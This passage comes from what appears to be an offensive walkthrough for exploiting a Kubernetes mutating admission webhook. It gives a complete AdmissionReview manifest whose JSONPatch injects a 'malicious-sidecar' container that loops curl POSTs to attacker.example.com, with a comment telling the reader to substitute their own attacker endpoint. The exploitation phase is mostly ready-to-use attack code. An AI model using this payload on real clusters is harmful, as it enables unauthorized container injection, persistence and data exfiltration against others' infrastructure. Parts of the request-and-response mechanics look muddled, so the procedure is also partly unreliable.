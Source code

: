     Examine the YAML output of the created pod. Take a snapshot of the pod spec before attempting the injection.  This is important to compare against later.  You are looking for what is *not* present in the original manifest.

    **Expected Output:** The YAML definition of the created pod.  Note the containers defined in the pod specification.

**Phase 2: Exploitation - Injecting a Malicious Sidecar**

Now we have identified a potentially vulnerable webhook and a target pod. We can now try to exploit the vulnerability. The exploitation involves crafting a malicious `AdmissionReview` request and sending it to the webhook's endpoint.

5. **Craft a Malicious AdmissionReview Request:**

   This step requires creating a JSON/YAML file that represents the `AdmissionReview` object. This object is sent to the mutating webhook. It includes the pod object and instructions on how to modify it (injecting the sidecar).

   Let's create a file named `malicious-admission-review.yaml`:

   ```yaml
   apiVersion: admission.k8s.io/v1
   kind: AdmissionReview
   request:
     uid: <SOME_UNIQUE_ID> # Generate a unique UUID
     kind:
       group: ""
       version: v1
       kind: Pod
     resource:
       group: ""
       version: v1
       resource: pods
     operation: CREATE
     userInfo:
       username: system:serviceaccount:default:default
       groups:
       - system:authenticated
     object:
       apiVersion: v1
       kind: Pod
       metadata:
         generateName: vulnerable-app-
         labels:
           vulnerable: "true"
           app: vulnerable-app
       spec:
         containers:
         - name: nginx
           image: nginx
         - name: malicious-sidecar
           image: alpine/curl
           command: ["/bin/sh", "-c", "while true; do curl -X POST -d '{\"data\":\"Sidecar compromised pod!\"}' http://attacker.example.com; sleep 5; done"] # Replace with your attacker endpoint
           securityContext:
             allowPrivilegeEscalation: false
             capabilities:
               drop: ["ALL"]
             readOnlyRootFilesystem: true
   response:
     allowed: true
     patchType: JSONPatch
     patch: '[{"op": "add", "path": "/spec/containers/-", "value": {"name": "malicious-sidecar", "image": "alpine/curl", "command": ["/bin/sh", "-c", "while true; do curl -X POST -d \'{\"data\":\"Sidecar compromised pod!\"}\' http://attacker.example.com; sleep 5; done"], "securityContext": {"allowPrivilegeEscalation": false, "capabilities": {"drop": ["ALL"]}, "readOnlyRootFilesystem": true}}}]'
   ```